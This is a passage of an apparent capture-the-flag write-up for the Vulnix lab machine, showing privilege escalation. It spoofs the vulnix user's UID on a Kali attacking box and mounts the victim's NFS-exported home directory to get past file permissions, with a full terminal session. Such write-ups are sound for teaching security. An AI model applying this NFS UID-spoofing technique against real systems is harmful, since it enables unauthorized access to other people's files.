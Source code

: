   
---|---  
  
  

### 2.2 Privilege escalation P1

We can now ssh into the victim's machine as user **user **but there's not much
to do unfortunately. GCC isn't installed so a local rootkit won't work since
they're written in C.  
  
If you navigate to /home you'll notice the shared directory we couldn't access
earlier. Why don't we try to get the UID for vulnix and create a temporary
user on our system and access it?

  

    
    
     1  
     2  
     3  
     4  
     5  
     6  
     7  
     8  
     9  
    10  
    11  
    12  
    13  
    14  
    15  
    16  
    17  
    18  
    19  
    20  
    21  
    22  
    23  
    24  
    25

|

    
    
    user@vulnix:/home$ id vulnix  
    uid=2008(vulnix) gid=2008(vulnix) groups=2008(vulnix)  
    user@vulnix:/home$ exit  
    logout  
    Connection to 192.168.1.72 closed.  
    root@kali:~# useradd -u 2008 vulnix  
    root@kali:~# mkdir /tmp/mnt  
    root@kali:~# mount -t nfs 192.168.1.72:/home/vulnix /tmp/mnt -nolock  
    root@kali:~# cd /tmp/mnt  
    bash: cd: /tmp/mnt: Permission denied  
    root@kali:~# su vulnix  
    $ whoami  
    vulnix  
    $ id  
    uid=2008(vulnix) gid=2008(vulnix) groups=2008(vulnix)  
    $ cd /tmp/mnt  
    $ ls  
    $ ls -al  
    total 20  
    drwxr-x---  2 vulnix vulnix 4096 Sep  2  2012 .  
